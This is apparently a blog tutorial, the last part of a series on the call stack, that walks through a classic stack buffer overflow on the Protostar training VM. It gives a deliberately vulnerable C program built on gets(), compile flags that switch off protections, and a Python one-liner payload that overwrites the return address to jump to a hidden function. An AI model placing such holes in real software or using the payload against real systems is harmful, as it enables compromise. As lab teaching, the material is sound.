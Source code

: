 ```yaml
---
title: What the stack is that? (Part 3)
author: Leo Lwin
pubDatetime: 2025-07-31T07:51:01.330Z
slug: what-the-stack-is-that-part-3
featured: false
draft: false
tags:
  - assembly
  - disassembling
  - tech
  - English
description: Let’s go some hands-on with the stack frame. This is final part.
---
```


## Table of Contents

## Goals
We’ve thrown away the plate analogies in [Part 1](https://leolwin.com/posts/what-the-stack-is-that-part-1/)  
We've seen how the CPU tracks logic with flags, how stack frames are formed and torn down with each function call in [Part 2](https://leolwin.com/posts/what-the-stack-is-that-part-2/)  
  
Now, it’s time for the real reason many of us even care about the stack.  
To manipulate it, to break it and to hijack it.  
  
By the end of this post, you’ll:
- Understand how return addresses live on the stack.
- Know how to overflow buffers and overwrite control flow.
- Be able to trigger basic stack-based exploits like shellcode injection or redirecting execution.
  
All without needing a 500-page OS textbook.
  
## The Classic Stack Overflow
Let’s start with a dangerously simple C program:  
```
#include <stdio.h>
#include <string.h>

void greet() {
    char name[16];
    printf("Enter your name: ");
    gets(name);  // Vulnerable function!
    printf("Hello, %s!\n", name);
}

int main() {
    greet();
    return 0;
}
```
  
What's the problem?  
- gets() does not check length. If you type more than 16 bytes, it overflows into neighboring memory.
  
And what’s that neighboring memory on the stack?
- The saved return address of the function.

>  the return address is the memory location where program execution should resume after a function or subroutine finishes. When a function is called, the address of the instruction (immediately following the function call) is typically saved on the stack, allowing the program to return to the correct point in the caller's code when the function completes. 


Let’s watch it live.

## Hands-on with GDB

> There's a common snag when working with gets(). Since C11, the gets() function is officially removed from the standard library because it’s dangerously insecure. So we'll be using [Protostar VM](https://github.com/ExploitEducation/Protostar/releases/download/v2.0.0/exploit-exercises-protostar-2.iso) for this.
  
Compile with:  
```
gcc -fno-stack-protector -z execstack -no-pie -o stack_crash stack_crash.c
```
  
You'll get an error but it was compiled anyway.
  
![Compiling stack crash](@/assets/images/compiling_stack_crash.png)
  
Let's run the program. When it asks for the name, put 'A's more than 16 characters and we got...
  
![Seg Fault](@/assets/images/seg_fault.png)
  
Now open GDB and repeat the same process again.
  
![GDB stack crash](@/assets/images/gdb_stack_crash.png)
  
You’ll see the function tried to return to an invalid address(0x41414141) because you overwrote the return address on the stack.  
  
## What's Happening?
  
The memory map of greet()'s stack frame:  
  
```
[Local buffer name[16]]   - You control this  
[Saved RBP]               - Can overwrite with overflow  
[Return Address]          - Jackpot: You control EIP/RIP  
```
  
By overflowing name[], you push past the buffer, past rbp, and finally land on the return address.
If you know **what value** to place here, you **can control** where the CPU jumps when the function ends.
  
## Redirecting Execution
  
Let’s create a new function called **secret()** inside the code:
```
#include <stdio.h>
#include <string.h>

void secret() {
    printf("You found the secret!\n");
}

void greet() {
    char name[16];
    printf("Enter your name: ");
    gets(name);  // Vulnerable function!
    printf("Hello, %s!\n", name);
}

int main() {
    greet();
    return 0;
}
```
  
Compile it as usual:
```
gcc -fno-stack-protector -z execstack -no-pie -o stack_crash2 stack_crash2.c
```
  
![Compiling stack crash 2](@/assets/images/compiling_stack_crash2.png)
  
Now our goal is to overflow the buffer and overwrite the return address with the address of secret().  
  
But how?  
  
Find the address of secret():
```
objdump -d ./stack_crash2 | grep secret
```
  
In this case, the address is `0x08048424`
  
And the question here is, how do we find an exact location where the overflow occured?  
  
We can use an A-Z wordlist to determine ([LiveOverflow](https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN)'s way). You can use any method if you want.
  
Use Python to generate the wordlist:

![Python Stack](@/assets/images/python_stack.png)
  
Paste this into our program:

![find the seg fault](@/assets/images/find_the_seg_fault.png)
  
Overflow occured in `0x48484848`. Where is it? You can use `man ascii` or python for it:
  
![Finding 48 with python](@/assets/images/finding_48_with_python.png)
  
It's happened in `H`. So we have to make our payload with 28 ascending 'A's:
  
```
AAAABBBBCCCCDDDDEEEEFFFFGGGG<address of secret() in little endian>
  
AAAAAAAAAAAAAAAAAAAAAAAAAAAA<address of secret() in little endian>
```
  
Let's construct our payload with python (Python2 is used here for Protostar VM):
  
```
python -c 'print "A"*28 + "\x24\x84\x04\x08"' | ./stack_crash2
```
  
![Found secret](@/assets/images/found_secret.png)
  
Voila! Our program jumps to secret() instead of returning to main() because we rewrote the return address on the stack.
  

## From Stack Frames to Exploits
  
This is the essence of:
- Buffer overflows
- Shellcode injection
- Return-to-libc attacks
- ROP chains
  
All of them are born from understanding and controlling the stack.
  
The stack is not just a “call stack” in a debugger. It’s a core structure of execution, a memory region with rules and loopholes.
  
If you treat the stack with respect, it’ll help you understand your code, your compiler, and your vulnerabilities.
  
But once you learn to manipulate, it becomes your weapon.
  
## Bonus: What to Do Next
  
If you want more hands-on:
- Try [picoCTF](https://play.picoctf.org/)’s buffer overflow challenges.
- Practice stack smashing with [Protostar](https://github.com/ExploitEducation/Protostar/releases/download/v2.0.0/exploit-exercises-protostar-2.iso) (There're lots of exercises in this VM).
- Dissect vulnerable programs with gdb, objdump, and Ghidra.
  
That’s it for this trilogy. Thanks for sticking it to an end.
  
Now you've understand what the stack is.  
  
So it's time for you to control it.
  
